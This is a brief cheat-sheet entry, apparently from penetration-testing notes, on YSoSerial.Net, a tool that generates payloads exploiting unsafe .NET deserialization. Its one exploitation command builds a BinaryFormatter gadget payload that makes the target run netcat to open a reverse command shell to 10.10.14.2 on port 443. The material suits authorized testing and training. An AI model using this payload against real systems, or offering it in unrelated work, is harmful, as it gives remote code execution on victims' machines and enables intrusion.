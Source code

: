 # YSoSerial.Net

<details>

<summary>What is it?</summary>

Generates payloads that exploit unsafe .NET object deserialization

[https://github.com/pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net)

</details>

<details>

<summary>Exploitation</summary>

```bash
.\ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "c:\temp\nc64.exe -e cmd.exe 10.10.14.2 443"
```

</details>
